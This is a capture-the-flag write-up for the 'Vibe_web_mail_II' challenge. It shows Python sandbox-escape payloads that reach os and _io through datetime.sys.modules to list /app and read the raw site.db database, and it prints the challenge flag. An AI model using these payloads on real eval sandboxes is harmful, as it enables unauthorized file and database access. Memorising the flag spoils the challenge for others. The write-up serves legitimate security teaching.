



**Challenge:** Vibe_web_mail_II  
**Category:** Web — Server-Side Template Injection (SSTI) / Python Sandbox Escape  
**Src:** [Vibe Web Mail II](../Vibe_web_mail_II/)

## Overview

This challenge presents an identical custom `safe_eval()` function to the original [Vibe_web_mail](./Vibe_web_mail.md). The sandbox implementation is completely identical, using the same vulnerability of insufficient sandboxing that allows traversal from permitted builtin modules to system-level objects. However, this version requires file system access and database exploration instead of environment variable reading.

## Prerequisite

This writeup builds upon the exploitation technique established in [Vibe_web_mail](./Vibe_web_mail.md). Please refer to that writeup for:

- Initial reconnaissance steps
- Vulnerability analysis details
- Basic `datetime.sys.modules` traversal technique

## Exploitation

### Step 1: System Module Discovery

Building on the technique from [Vibe_web_mail](./Vibe_web_mail.md), enumerate loaded modules:

**Payload:** `list(datetime.sys.modules.keys())`  
**Result:** Comprehensive list of all loaded Python modules, revealing multiple potential escape vectors

### Step 2: File System Exploration

Access `os` module for directory enumeration:

**Payload:** `datetime.sys.modules.get("os").listdir("/app")`  
**Result:** Directory contents of the application folder

This reveals the application structure and confirms the presence of `site.db` database file.

### Step 3: Database File Access

Access the SQLite database file using low-level I/O operations:

**Payload:** `datetime.sys.modules.get("_io").open("/app/site.db", "rb").read()`  
**Result:** Raw binary content of the database file containing the flag

The database file contains application data including user information and the hidden flag value embedded within the SQLite structure.

## Flag

`ASIS{vIb3_cod3r_Brrrrr_ee13b95e02a5b9aecae49333!!!}`

---

_Author: Gia Than_
